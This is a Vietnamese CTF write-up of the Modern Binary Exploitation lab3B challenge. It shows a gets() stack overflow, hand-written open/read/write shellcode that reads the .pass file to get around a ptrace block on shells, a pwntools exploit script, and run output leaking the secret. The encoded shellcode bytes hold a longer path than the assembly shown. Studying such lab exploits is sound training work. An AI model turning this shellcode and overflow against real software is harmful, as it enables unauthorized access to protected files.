 # Problem
`lab3B` này là 1 dạng mới mình từng gặp, bài này sẽ gọi một tiến trình con bằng hàm fork(): 
```sh
pid_t child = fork();
```

Bài này chúng ta có `hint` trong source luôn:

```sh
/* hint: write shellcode that opens and reads the .pass file.
   ptrace() is meant to deter you from using /bin/sh shellcode */

```

Bài này có sử dụng 1 số hàm chính như:

* ptrace(PTRACE_TRACEME, 0, NULL, NULL);     - cái này trên hint có rồi nhỉ.
* puts("just give me some shellcode, k");    - hiển thị chuỗi ra màn hình
* gets(buffer);                              - Nhập dữ liệu từ bàn phím, đây là hàm gây Buffer Overflow vì không kiểm soát số lượng nhập vào.
* wait(&status);                             - Đợi tiến trình, cụ thể là tiến trình con thực hiện, theo mình hiểu là vậy :v.
* syscall = ptrace(PTRACE_PEEKUSER, child, 4 * ORIG_EAX, NULL); - hàm này sẽ ngăn tiến trình con spawn shell.


# Solution

### Lý thuyết
Hướng exploit bài này là mình sẽ viết shellcode thực hiện các chức năng như open, read, write đúng như hint ở trên.
sau đó mình sẽ ret về shellcode ấy.

### Thực hành
Nghe lý thuyết thì có vẻ ăn ngay và luôn. mình cùng thực hành nào.

Để viết shellcode chúng ta cần rất nhiều thứ như sau:

* đường dẫn file cần mở  - Chắc chắn rồi, nó giống như flag, đọc được nó coi như mình làm xong bài này.
* hết rồi. :v

Đường dẫn thì nó là `.pass` luôn vì hint có nói thế. Để nó vào shellcode thì chúng ta cần phải chuyển sang hexa

```sh
.   p    a   s   s                        s  a  p  .     s
2e  70   61  73  73             =>        73 61 70 2e    73
```

Đảo ngược nó là vì shellcode chuỗi này mình đưa vào stack có kết thúc nhỏ. (little endian)

Shellcode mình viết bằng asembly như sau:
```sh
    segment .text
        global _start
    _start:
    push   0x73
    push   0x7361702e

    xor    eax,eax
    mov    al,0x5    ; Sys_open
    mov    ebx,esp
    xor    ecx,ecx
    xor    edx,edx
    int    0x80

    sub    esp,0x64
    mov    ebx,eax
    mov    al,0x3     ; Sys_read
    mov    ecx,esp
    mov    dl,0x64
    int    0x80

    mov    al,0x4     ; Sys_write
    mov    bl,0x1       
    mov    ecx,esp
    mov    dl,0x64
    int    0x80
```


**sub esp,0x64** là mình để chứa giá trị trong file trên. 

Sau khi chuyển sang shellcode sẽ như này: 
```sh
 shellcode = "\x6a\x73\x68\x2e\x70\x61\x73\x68\x62\x33\x41\x2f\x68\x65\x2f\x6c\x61\x68\x2f\x68\x6f\x6d\x31\xc0\xb0\x05\x89\xe3\x31\xc9\x31\xd2\xcd\x80\x83\xec\x64\x89\xc3\xb0\x03\x89\xe1\xb2\x64\xcd\x80\xb0\x04\xb3\x01\x89\xe1\xb2\x64\xcd\x80"

```
Và đây là file exploit3B.py của mình

```sh
from pwn import *

s = process("./lab3B")
elf = ELF("./lab3B")
LIBC = ELF("/lib/i386-linux-gnu/libc.so.6")
raw_input("DEBUG")
payload = 'a'.ljust(156,"b")
payload+= p32(elf.symbols.plt['gets'])
#cach1
#payload+= p32(elf.symbols['main'])
#cach2
payload+= p32(0x8049000)
payload+= p32(0x8049000)
s.sendline(payload)

shellcode = "\x6a\x73\x68\x2e\x70\x61\x73\x68\x62\x33\x41\x2f\x68\x65\x2f\x6c\x61\x68\x2f\x68\x6f\x6d\x31\xc0\xb0\x05\x89\xe3\x31\xc9\x31\xd2\xcd\x80\x83\xec\x64\x89\xc3\xb0\x03\x89\xe1\xb2\x64\xcd\x80\xb0\x04\xb3\x01\x89\xe1\xb2\x64\xcd\x80"
s.sendline(shellcode)
s.interactive()
s.close()
```
Chạy file exploit3B.py và lấy secret_message.
```sh
zir@warzone:~/ctf/TrainingPwn/MBE_release/levels/lab03$ python exploit3B.py
[+] Starting local process './lab3B': pid 12291
[*] '/home/zir/ctf/TrainingPwn/MBE_release/levels/lab03/lab3B'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
[*] '/lib/i386-linux-gnu/libc.so.6'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
DEBUG
[*] Switching to interactive mode
just give me some shellcode, k
secret_content
\x00bbbbbbbbbbbbbbbbbbb\x0c���\x15��\xff\xff\xff\x7f
\x00\x00\x00\x00bbbbbbbbbbbbbbbbbbbbbbb\x00\x04bbbbbbbbbbbb$  
```

